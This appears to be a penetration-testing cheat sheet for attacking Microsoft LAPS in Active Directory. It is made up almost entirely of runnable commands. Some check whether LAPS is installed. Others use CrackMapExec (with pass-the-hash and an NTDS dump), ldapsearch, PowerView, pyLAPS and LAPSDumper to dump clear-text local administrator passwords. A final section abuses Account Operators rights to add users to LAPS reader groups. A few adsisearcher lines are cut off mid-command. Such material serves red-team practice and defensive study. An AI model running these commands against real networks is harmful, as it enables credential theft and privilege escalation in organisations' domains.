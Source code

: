 # ENUMERATION

#### dir "C:\Program\LAPS\CSE"

#### Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'

### If admpwd.dll exists, then enumeration is successful.

# LAPS PASSWORD EXTRACTION

### The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

#### 1) Get-Command *Admpwd*

#### 2) Find-AdmPwdExtendedRights -Identity *

#### 3) net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### 1) CrackMapExec

 - crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

 - crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' --laps

#### 2) ldapsearch

 - ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

#### 3) LAPSToolkit

 - Get-LAPSComputers

 - Find-LAPSDelegatedGroups

 - Find-AdmPwdExtendedRights

#### 4) adsisearcher (native binary on Windows 8+)

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))"

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE

#### 5) Powerview

 - Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwd


#### 6) pyLAPS (Linux)

### Read the password of all computers

 - ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip IP_ADDRESS

### Write a random password to a specific computer

 - ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local'

#### 7) LAPSDumper (Linux)

 - python laps.py -u 'user' -p 'password' -d 'domain.local'

 - python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local

# GRANT LAPS ACCESS

### The members of the group "Account Operator" can add and modify all the non admin users and groups. Since LAPS ADM and LAPS READ are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

 - Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain

 - Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain
